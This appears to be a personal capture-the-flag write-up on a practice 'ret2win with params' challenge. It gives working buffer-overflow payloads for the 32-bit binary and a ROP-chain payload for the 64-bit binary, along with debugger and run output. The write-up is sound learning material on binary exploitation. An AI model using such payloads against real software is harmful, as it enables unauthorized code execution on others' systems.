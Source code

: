 #ctf #pwn 
Similar to CC 04 we need to override the return address of registrer_user to call the hacked function. We find the needed amount of padding:

![[Pasted image 20250125132655.png]]


- We make a payload with 28 bytes of padding, and then the address of hacked(). 
- From ghidra we see that we need to alter the parameters in the hacked function to get the top secret. 
![[Pasted image 20250125135420.png]]

We specify values in the payload to set the first parameter equal to 0xdeadbeef 
```
payload = 'A'*28 + '\x82\x91\x04\x08' + 'BBBB' + '\xef\xbe\xad\xde'

file = open("payload",'w')
file.write(payload)
print(payload)
```
 
And do the same with 0xc0debabe.
- then we run the program with the payload, if we look at the stack:
![[Pasted image 20250125152630.png]]
- we can see deadbeef and codebabe on our stack. 
- the comparing step we are supposed to bypass checks whats at: ebp + 8. ebp is the stack base pointer 
``` ASM
0x8049193 <hacked+17>           cmp    dword ptr [ebp + 8], 0xdeadbeef
```
- ebp is pointing to 0xffffcffc, and if we add 8 to that address we get: **0xFFFFD004**, which we see contain 0xdeadbeef. 
- The other check, checks if ebp + 0xc is equal to 0xcodebabe
```
0x804919c <hacked+26>           cmp    dword ptr [ebp + 0xc], 0xc0debabe
```
- And from the screenshot we see this is also true. 

```
└─$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBﾭ޾���
This function is TOP SECRET! How did you get in here?! :O
Segmentation fault (core dumped)
```

------

#### 64bit version of the program: 
```
┌──(kali㉿windowsaids)-[~/CTF/Cryptocat/pwn/binary_exploitation_101/04-ret2win_with_params/64-bit]
└─$ file ret2win_params
ret2win_params: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c9ab2d6786356596c407f942908f9078b156d4d1, for GNU/Linux 3.2.0, not stripped
```


We can see the decompiled code is very similar:
![[Pasted image 20250125154850.png]]

- Observer the parameters has twice as many bits as the parameters in the 32 version.  

The same logic goes, we need to find the padding needed to overflow the buffer. We want our input to overwrite the RIP registry:

![[Pasted image 20250125161248.png]]

- Looking at the first 4 bytes of RSP, we find that the padding is 24. 
```
pwndbg> cyclic l daaaaaaa
Exception occurred: cyclic_cmd: No symbol "l" in current context. (<class 'pwndbg.dbg.Error'>)
For more info invoke `set exception-verbose on` and rerun the command
or debug it by yourself with `set exception-debugger on`
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
pwndbg>
```

- NOTE: Since this is a 64 bit program, we need to setup the registries before we call the hacked function.  

- To spesify the parameters when we call the function, we need to change the values of rdi (param 1) and rsi (param 2) registry. This is different from the 32bit version when we just pushed values to the stack.

The format of the payload:
```
padding + pop_rdi + 0xdeadbeef + pop_rdi_r15 + 0xc0debabe + calling_hacked()
```

- The pop_rdi just means we pop a value from the stack and save it in rdi. To find code that lets us pop_rdi we use ropper:
![[Pasted image 20250125165656.png]]
- For the pop_rsi we dont have a tool to do it directly, we also have to send something to r15.
![[Pasted image 20250125170624.png]]

So the payload is:
```
payload = 'A'*24 + '\x4b\x12\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\x49\x12\x40\x00\x00\x00\x00\x00' + '\xbe\xba\xde\xc0\xbe\xba\xde\xc0' + 'junkjunk' + '\x42\x11\x40\x00\x00\x00\x00\x00'
```

![[Pasted image 20250125171446.png]]



